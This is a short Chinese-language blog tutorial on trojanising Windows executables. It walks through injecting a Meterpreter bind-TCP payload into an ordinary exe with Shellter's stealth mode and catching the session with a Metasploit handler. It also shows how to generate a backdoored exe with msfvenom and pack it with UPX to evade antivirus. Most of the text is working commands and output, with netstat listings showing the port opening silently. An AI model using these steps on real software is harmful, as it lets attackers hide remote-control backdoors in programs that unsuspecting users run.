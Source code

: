 ```yaml
---
title: 简单的 PE 后门
date: 2019-07-19 22:57:45
tags:
  - Kali
categories:
  - 安全工具
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/ShellterUpx/0.jpg
---
```


记录一下最简单的挂后门和免杀方法，不怎么接触这块。

<!--more-->

主要介绍两个工具：Shellter 和 Upx，后者 Kali 自带。Shellter 的安装略有点复杂，因为需要 wine32 的支持。使用的 Kali 是 64 位的。

首先 `apt install shellter` 应该不会有什么问题，但是启动的时候会提示缺少 wine32，因此执行：

```shell
$ dpkg --add-architecture i386 && apt-get update && apt-get install wine32
```

这一步会花费很长时间，因为 wine 本身很庞大。装完后应该就可以正常使用了。

## 通过 Shellter 篡改 exe 文件

随意取一个 exe 文件作为我们要加入后门的可执行文件。首先启动 shellter，会看到：
![图 1]({{< param cdnPrefix >}}/ShellterUpx/0.jpg)

输入 `A` 选择自动模式，随后输入 exe 文件所在路径，程序便会自动运行，分析原文件并插入恶意代码。这个过程大约持续不到一分钟。

输入 `Y` 开启隐蔽模式，随后选择使用它列出的七种 payload 还是自定义，这里我们输入 `L` 选择列出的 payload。

带 `Meterpreter` 前缀的是指可以通过 MSF 获取会话的 payload，方式有正向 `Bind` 与反向 `Reverse` 两种。`Bind` 顾名思义，就是用户打开 exe 后，将会在用户主机上开放一个端口，攻击者去连接那个端口就可以获取会话。`Reverse` 则是反过来，使用户主机连接攻击者开放的端口来获取会话。而带 `Shell` 前缀的 payload 可以直接反弹 shell 给攻击者。

攻击者还可以通过不同的协议来获取会话，比如任意 TCP 协议，HTTP/HTTPS 协议等。这里以选择 4 号 payload `Meterpreter_Bind_TCP` 为例。

最后要求设置 `LPORT` 也就是要在目标主机上打开的端口，只要是没有被占用的端口都可以，比如这里可以设置 `60000` 端口。

完成以后，新的 exe 文件就是已经被植入后门的 exe 文件，相比于原文件，它占空间多了一点，其它地方似乎看不出什么区别。

## 通过 Meterpreter 获取会话

假设目标主机（Windows）获得了新的 exe 文件。在双击打开前，我们查看用 `netstat -an` 查看其已经开放的端口：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

然后我们双击打开，发现和原来的 exe 完全没有区别。再次查看端口情况可以发现，`60000` 端口悄悄开启了：

```
Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:60000          0.0.0.0:0              LISTENING
  TCP    192.168.159.128:139    0.0.0.0:0              LISTENING
  TCP    192.168.159.128:1244   112.34.111.235:443     FIN_WAIT_2
  UDP    0.0.0.0:445            *:*
  UDP    127.0.0.1:123          *:*
  UDP    127.0.0.1:1025         *:*
  UDP    127.0.0.1:1219         *:*
  UDP    192.168.159.128:123    *:*
  UDP    192.168.159.128:137    *:*
  UDP    192.168.159.128:138    *:*
```

接下来我们看看攻击者要怎么操作来获取会话。

首先要确保攻击者和目标主机在同一网段。打开 `msfconsole`。依次输入：

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set lport 60000
set rhost 192.168.159.128
exploit
```

其中 `rhost` 需要改为目标主机的内网 IP。

这样以后，就可以获取会话，并执行任意命令了（会话的作用不局限于执行 shell 命令）：
![图 2]({{< param cdnPrefix >}}/ShellterUpx/1.jpg)

需要注意的是，一旦用户关闭 exe 文件，会话也将随之关闭。因此实际场景中常常配合持久化提权工具使用。

## 使用 msfvenom 直接生成带后门的 PE 文件

上面的例子需要修改一个已有的 exe 文件，这里我们可以直接生成这样的带后门的文件：

```shell
$ msfvenom -p windows/meterpreter/bind_tcp lport=60001 -f exe > test.exe
```

端口号依然可以是任意未被占用的端口。msfvenom 也提供了许多选项实现免杀，这里不一一介绍了。

## 使用 Upx 给程序加壳

这样做的作用主要有两个：压缩文件大小和免杀。然而 Upx 加壳毕竟是最最简单的免杀方法，现在的绝大多数杀毒软件都能轻易脱壳。举个例子，给刚才生成的 exe 文件加壳，只需要：

```shell
$ upx -9 test.exe
```

`-1` 参数压缩得最快，`-9` 参数压缩质量最高。

## 后记

这篇文章叙述的方法是最初级的植入后门的方法，略过了很多有一定难度的细节，详情参见 Shellter/Upx/msfvenom 的文档。
